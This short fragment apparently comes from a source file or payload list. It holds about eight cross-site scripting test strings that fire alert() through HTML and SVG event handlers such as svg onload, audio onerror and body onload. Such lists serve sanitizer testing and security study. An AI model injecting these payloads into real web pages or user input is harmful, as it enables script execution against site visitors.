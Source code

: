 # <h1><img src=x ><h1>
# <svg/onload=alert()>
# <audio oncanplay=alert(1)><source src="validaudio.wav" type="audio"/wav"></audio>
# <audio controls onwaiting=alert(1)><source src=x type=x></audio>
# <svg><animate onend=alert(1) attributeName=x dur=1s>
# <audio src/onerror=alert(1)>
# <body onload=alert(1)>
# <xss onpointerover=alert(1) style=display:block>XSS</xss>









